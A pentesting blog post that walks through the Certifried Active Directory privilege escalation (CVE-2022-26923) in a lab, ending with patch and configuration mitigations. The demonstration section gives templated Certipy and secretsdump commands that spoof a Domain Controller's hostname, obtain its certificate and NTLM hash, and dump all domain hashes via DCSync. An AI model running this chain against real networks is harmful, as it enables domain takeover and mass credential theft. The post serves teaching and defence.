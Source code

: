 ```yaml
---
layout: post
title:  "AD Pentesting | Domain Privesc - Certifried (CVE-2022-26923)"
---
```


![Certifried-diagram](/assets/Certifried/Certifried-diagram.jpg)

# The Attack In Brief
1. AD Certificates can be used for authentication.
2. Certificates can be generated from **templates** in a **Certificate Signing Request** (CSR).
3. There are **two** types of templates available in **ADCS** by default: User and Computer. They are **accessible to anyone** in the `Domain Users` or `Domain Computers` groups.
4. The certificates they generate **allow for authentication.**
5. *When generating a certificate for a computer object*, the computer template will check that computer's `DNSHostname` property and **will generate the certificate based on it**.
6. **Meaning:** *if the computer's* `DNSHostname` *is a Domain Controller's,* you will get a certificate for that **Domain Controller!**
7. *On another note, by default,* **any authenticated user** can join up to 10 computers to the domain.
8. *When a user joins a computer to the domain,* he will have the **permission to modify** that computer's `DNSHostname` property.
9. *Combining the points above,* any authenticated user can add a computer to the domain and *alter* its `DNSHostname` to that of a **Domain Controller** and get a certificate as that domain controller.
10. *Using that certificate,* the user *can obtain* the computer account's **NTLM** hash which can be used to *request a full copy of the domain's hashes* (a.k.a **perform a `DCSync` attack**).

---

# Tools Needed
1. [Certipy](https://github.com/ly4k/Certipy)
2. [Impacket](https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](/assets/Certifried/dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](/assets/Certifried/kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](/assets/Certifried/normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed DNSHostname
**Command:** 
```bash
certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>
```

![creating-computer-with-spoofed-dns-hostname](/assets/Certifried/creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](/assets/Certifried/proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first obtain the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating.

![finding-out-the-ca-name](/assets/Certifried/finding-out-the-ca-name.jpg)

**Command:** 
```bash
certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine
```

Password = the same password generated from the computer creation in the previous step

![requesting-dc-cert](/assets/Certifried/requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
**Command:** 
```bash
certipy auth -pfx <GENERATED_PFX_CERTIFICATE>
```

![got-nt-hash-for-dc](/assets/Certifried/got-nt-hash-for-dc.jpg)

## 4. Performing DCSync As The Impersonated Domain Controller
**Command:** 
```bash
secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>
```

![dc-sync-with-dc-ntlm-hash](/assets/Certifried/dc-sync-with-dc-ntlm-hash.jpg)

---

# Mitigation
1. Applying the patch released by Microsoft [here](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923).
2. Reducing certificate template permissions.
3. Reducing the default user's machine quota to zero. Only Administrators should have this privilege.

---

# References and Credits
- **Will Schroeder** and **Lee Christensen** who wrote the paper that started it all [here](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- [Oliver Lyak](https://twitter.com/ly4k_) who discovered, reported and explained the vulnerability [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) as well as created the `Certipy` tool.
- **SecureAuthCorp** for the awesome **Impacket** scripts of course :D